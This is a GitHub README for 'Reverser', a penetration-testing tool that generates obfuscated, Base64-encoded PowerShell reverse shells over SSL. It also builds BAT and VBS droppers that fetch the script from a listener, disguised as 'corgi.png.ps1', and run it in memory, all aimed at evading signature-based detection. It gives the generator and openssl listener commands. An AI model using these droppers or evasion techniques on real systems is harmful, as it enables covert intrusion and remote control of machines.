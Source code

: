 # Reverser: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **VBS File Generation:** Create a VBS file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reverser
```

## Explain

The tool can generate Three types of files, as chosen by the user:
- A single PS1 file with obfuscation and Base64 encoding containing a Reverse shell payload.
- An encoded BAT file that connects to a remote server to download and Execute the encoded PS1 file.
- A VBS file that connects to a remote server to download and Execute the encoded PS1 file.

The BAT and VBS files, during their initial request to the server to download the PS1 into memory, are executed over an encrypted channel using a Self-Signed Certificate. After downloading the PS1 file into memory, the BAT and VBS files will decode the script and establish an encrypted communication channel to create the Reverse Shell


This way, we can ensure that the communication is encrypted end-to-end.

## Usage

Creating only a PS1 file (obfuscated and Based64 encoded):
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type ps1
```
![image](https://github.com/user-attachments/assets/7e53d3e9-553a-459f-bf42-287d2c6e1606)

Creating a VBS file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type vbs -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/download/photo/corgi.png.ps1>
```
![image](https://github.com/user-attachments/assets/ad71135d-a456-427c-a0e5-89bc95d0d4cf)

Creating a BAT file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type bat -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/download/photo/corgi.png.ps1>
```
![image](https://github.com/user-attachments/assets/91411dd0-7ef9-42d2-95c8-918fb3ba42c2)


-----------------------------

Opening The listeners:

Opening a listener with the OpenSSL server to receive the Reverse shell connection:
```bash
openssl s_server -accept <Your_PORT> -cert reception.pem -key reception.key -quiet
```
open a listener with our server to handle the initial connection for downloading the PS1 file from the BAT/VBS file:
```bash
python3 listener.py -https_port|-http_port <Your_Listener_Server_PORT>
```


All The traffic is encrypted:
![image](https://github.com/user-attachments/assets/a2f21061-aa9c-425f-b631-0da774b01395)


Getting an encrypted Reverse Shell after downloading the PS1 file to the memory via encrypted connection:
![image](https://github.com/user-attachments/assets/eb34ed8a-e98c-4fed-b01d-f2bafdc00726)





